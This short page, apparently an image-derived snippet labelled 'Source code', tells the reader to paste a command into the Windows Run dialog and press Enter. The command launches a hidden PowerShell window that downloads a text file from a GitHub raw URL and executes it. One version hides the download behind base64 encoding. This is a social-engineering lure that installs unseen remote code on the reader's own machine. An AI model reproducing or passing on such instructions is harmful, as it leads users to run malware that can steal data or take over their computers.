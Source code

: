 DO THIS ON YOUR PC:

1) COPY THIS: 

```powershell.exe -windowstyle hidden Invoke-Expression([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('KEludm9rZS13ZWJyZXF1ZXN0IC1VUkkgImh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9hbGV4LVgtMTIvQXRvbWl4LWZ1emUvbWFpbi9jbWQudHh0IikuQ29udGVudA==')))```

or: ```powershell.exe -windowstyle hidden Invoke-Expression(Invoke-webrequest -URI "https://raw.githubusercontent.com/alex-X-12/Atomix-fuze/main/cmd.txt").Content```

2) HOLD WIN+R
3) HOLD CTR+V
4) PRESS ENTER!
